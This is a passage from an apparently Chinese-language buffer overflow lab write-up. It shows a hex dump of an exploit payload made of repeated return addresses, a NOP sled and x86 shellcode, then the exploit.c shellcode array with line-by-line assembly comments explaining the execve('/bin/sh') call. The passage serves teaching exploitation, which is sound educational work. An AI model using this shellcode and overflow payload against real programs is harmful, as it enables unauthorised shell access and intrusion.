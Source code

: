 ```asm
00000000: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000010: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000020: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000030: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000040: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000050: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000060: c7ca ffff 9090 9090 9090 9090 9090 9090  ................
00000070: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000080: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001e0: 9090 9090 9090 9090 9090 9031 c050 682f  ...........1.Ph/
000001f0: 2f73 6868 2f62 696e 89e3 5053 89e1 99b0  /shh/bin..PS....
00000200: 0bcd 8000 00          
```



### exploit.c 源代码分析

#### shellcode

分析见注释：

```c
char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;
```
